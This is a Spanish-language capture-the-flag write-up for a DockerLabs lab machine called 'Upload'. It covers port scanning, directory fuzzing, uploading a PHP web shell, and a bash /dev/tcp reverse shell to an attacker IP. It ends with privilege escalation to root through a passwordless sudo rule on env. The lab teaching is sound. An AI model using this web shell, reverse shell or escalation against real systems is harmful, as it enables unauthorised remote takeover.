 # Máquina Upload

## Reconocimiento
Comenzamos realizando un escaneo general con **nmap** sobre la IP de la máquina víctima para ver qué puertos tiene abiertos.
Este escaneo realiza un escaneo de todos los puertos disponibles en el host "172.17.0.2", mostrando solo los
puertos abiertos, utilizando el escaneo de tipo TCP SYN ("-sT"), estableciendo una velocidad mínima de envío de paquetes de 5000 por segundo ("--min-rate 5000"), activando el modo de verbosidad extremadamente alto ("-vvv"), desactivando la resolución DNS ("-n"), no realizando el ping previo al escaneo ("-Pn"), y guardando los resultados en formato Greppable en un archivo llamado "allPorts" ("-oG allPorts").

```shell
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
________________________________________________

PORT    STATE SERVICE REASON
80/tcp  open  http  syn-ack
```
Vemos que tan solo tiene el **puerto 80 abierto**, es decir, el servicio http, donde estará corriendo una página web que inspeccionaremos en unos instantes.
Lanzamos un conjunto de scripts con el parámetro "-sCV" ("-sC" y "-sV" combinados) para que nos reporte más información.
El comando utiliza el script de versión y detección de servicio, enfocándose únicamente en el puerto 80 ("-p80") del host "172.17.0.2", y guarda los resultados en un archivo de texto plano llamado "targeted" ("-oN targeted").

```shell
nmap -sCV -p80 172.17.0.2 -oN targeted
________________________________________________

PORT    STATE SERVICE VERSION
80/tcp  open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)
```

--------------------

Vemos el título, la versión de Apache, y poca información más. Accedemos a la web para ver ante qué nos enfrentamos.

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/c4132f21-6c6e-4cd9-ac27-ea530c72a24a)

Encontramos un campo de **subida de archivos**. Esto, sumado al nombre de la máquina, nos deja claro que tendremos que abusar de una subida de archivos para intentar ganar acceso a la máquina.
Probamos a subir un archivo txt de prueba:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/73401c36-dd46-4904-91ea-9f9786574e75)

## Fuzzing

Nos indica que se ha subido correctamente. Ahora vamos a tratar de ubicarlo en algún directorio realizando **fuzzing** para descubrir posibles directorios. Para ello usaremos la herramienta **gobuster** y un diccionario de directorios comunes:

```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 --add-slash
________________________________________________

/icons/               (Status: 403) [Size: 275]
/uploads/             (Status: 200) [Size: 741]
/server-status/       (Status: 403) [Size: 275]
```

Encontramos un **directorio uploads**.
Accedemos a él y encontramos el archivo que hemos subido:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/af16d052-d909-494b-b31e-7d7dc274e296)

También comprobamos que lo podemos abrir y leer sin problemas:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/732d4fff-fbf9-4155-92a2-86cd325f70a2)

Como ya tenemos una ruta donde ubicar los archivos que subimos, vamos a tratar de subir un archivo con código **php malicioso**. Si lo logramos y este es interpretado por la máquina, podremos llegar a ejecutar comandos en la máquina que corre el servicio web, lo que se conoce como **RCE** -> (Remote Code Execution)

## Explotación

Creamos un archivo llamado **cmd.php**
En este incluimos incluiremos el siguiente contenido:

```php
<?php
	system($_GET['cmd']);
?>
```

**GET** es un método de solicitud utilizado en HTTP para enviar datos a un servidor web. Cuando se usa en una URL, como en ?cmd=valor, indica que se está pasando un parámetro llamado cmd con un valor específico. En el
contexto de este código PHP, captura el valor del parámetro cmd pasado en la URL y lo utiliza como un comando para ejecutar en el sistema.

Observamos que la hemos subido correctamente:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/697a6d79-ff64-4d1e-bc2f-d6d8350c774f)

Nos dirigimos como antes al directorio **/uploads** donde lo deberíamos encontrar:

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/4fbb15fa-c9a7-4540-9801-22ea4a3de3be)

Observamos que nos está interpretando el php, ya que no aparece el texto que hemos incluido en nuestro cmd.php
Confirmamos que es vulnerable y procedemos a ejecutar un comando.

```
http://172.17.0.2/uploads/cmd.php?cmd=id
```

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/efd2655f-22ad-44b4-92b3-d8157d349460)

En este caso, al acceder a la URL http://172.17.0.2/uploads/cmd.php?cmd=id, estamos utilizando el método GET para enviar un parámetro llamado cmd con el valor id.

El código PHP en el archivo cmd.php  ejecuta el comando del sistema que se pasa como valor de cmd. Por lo tanto, al pasar como valor de cmd, el servidor ejecuta el comando id, que muestra la identificación del
usuario y los grupos a los que pertenece en el sistema operativo.

El siguiente paso, una vez hemos comprobado que tenemos ejecución remota de comandos sobre la máquina, es ejecutar un comando que nos envíe una consola interactiva a nuestra máquina atacante. A esto se le conoce como **Reverse Shell**.
Para ello, nos ponemos en escucha previamente en nuestra máquina atacante, por ejemplo con **netcat**:

```shell
nc -nlvp 443
```

(Es posible que en tu máquina sea necesario **root** para escuchar por el puerto 443)

A continuación, ejecutamos la reverse shell a través de la url como anteriormente el comando id. Le pasaremos el siguiente valor al parámetro cmd:

```shell
http://172.17.0.2/uploads/cmd.php?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.39/443 0>%261" 
```
Los caracteres "**&**" los url-encodearemos para que no nos den problemas (corresponden al **%26**), y la IP en la reverse shell es la correspondiente a nuestra máquina atacante.

Tras ejecutarlo, comprobamos que **hemos ganado acceso a la máquina**.

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/cc007fd1-4766-4a3a-a950-2040f9c3fcb2)

Realizaremos un breve **tratamiento de la tty** para poder operar de forma cómoda sobre la consola. Los comandos a ejecutar:

```shell
script /dev/null -c bash 
```
(hacemos  **ctrl  +  Z**)

```shell
stty raw -echo; fg
reset xterm
stty rows 62 columns 248
export TERM=xterm
export SHELL=bash
```

Pondremos en rows y columns las columnas y filas que correspondan a la pantalla de nuestra máquina.
Una vez hecho esto podemos maniobrar con comodidad, pudiendo hacer Ctrl+L para limpiar la pantalla así como Ctrl+C.

## Escalada de privilegios

Una de las primeras comprobaciones que se realiza al ganar acceso a una máquina es ejecutar el comando "**sudo -l**" para listar los permisos de sudo que tiene el usuario actual en el sistema. Muestra qué comandos específicos el usuario puede ejecutar con privilegios elevados utilizando sudo, así como cualquier restricción aplicada a esos comandos.

```shell
sudo -l
```

![image](https://github.com/albertomarcostic/DockerLabs-WriteUps/assets/131155486/79be4197-1435-47f5-8812-09ed665d2002)

En este caso observamos que podemos ejecutar el binario "**/usr/bin/env**" como el usuario **root**, sin proporcionar contraseña.

Si no sabemos como explotarlo, podemos recurrir a **[GTFOBins]**(https://gtfobins.github.io/) , y si es crítico esta página nos indicará como podemos explotarlo. En este caso es sencillo ya que con env podemos lanzarnos directamente una consola, y al poder ejecutarlo como root, esta consola será lanzada con sus permisos, de forma que hemos logrado el nivel de privilegios máximo sobre la máquina !

```shell
sudo env /bin/sh
whoami
________________________________________________
root
```






